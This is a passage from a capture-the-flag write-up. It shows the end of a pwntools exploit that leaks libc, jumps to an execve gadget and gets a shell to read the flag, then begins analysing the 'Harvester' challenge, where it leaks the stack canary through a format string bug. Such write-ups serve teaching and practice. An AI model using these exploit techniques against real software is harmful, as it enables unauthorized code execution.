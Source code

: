 ```

libc.address = alarm_libc_leak - libc.sym.alarm
print(f"libc base: 0x{libc.address:2x}")

execve_gadget = libc.address + 0x4f432        # execve() gadget offset
r.sendline(p64(execve_gadget))

r.interactive()
```

Running it gives us a shell on the server to get the flag: 

```
► ./sploit.py SILENT=1
alarm@libc: 0x7fc3459f7610
libc base: 0x7fc345913000
[*] Switching to interactive mode
$ ls
flag.txt  system_drop
$ cat flag.txt
CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}
```

## Harvester

This binary challenge includes a copy of `libc.so.6` and is compiled with the works: Full RELRO, NX, stack canary, and PIE. When executed, the binary gives the user four options: 

```
► ./harvester

A wild Harvester appeared 🐦

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
>
```

After spending some time analyzing the binary in Cutter, we can determine the following: 

### Fight

The `fight()` function prompts the user to select a weapon by reading 5 bytes from the user using `read()`. Whatever weapon is selected results in the message "You are not strong enough to fight yet.". A format string vulnerability exists in this function which allows us to read pointers on the stack. We are able to leak the stack canary at positions 11, 15, and 19, as well as a libc address (`__libc_start_main()+231`) at position 21.

Leaking the stack canary: 

```
Choose weapon:

[1] 🗡		[2] 💣
[3] 🏹		[4] 🔫
> %11$p

Your choice is: 0x5420ef415fb19a00
You are not strong enough to fight yet.
```
